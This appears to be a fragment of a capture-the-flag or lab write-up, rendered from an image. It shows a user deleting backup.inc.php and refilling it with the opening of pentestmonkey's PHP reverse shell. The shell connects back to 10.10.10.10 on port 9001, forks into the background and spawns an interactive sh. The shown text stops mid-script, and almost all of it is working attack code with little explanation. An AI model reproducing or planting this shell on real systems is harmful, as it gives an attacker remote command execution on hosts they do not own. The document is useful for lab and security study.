 
```bash
$rm backup.inc.php 
rm: remove write-protected regular file 'backup.inc.php'? y
```

```bash
$nano backup.inc.php
```

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

```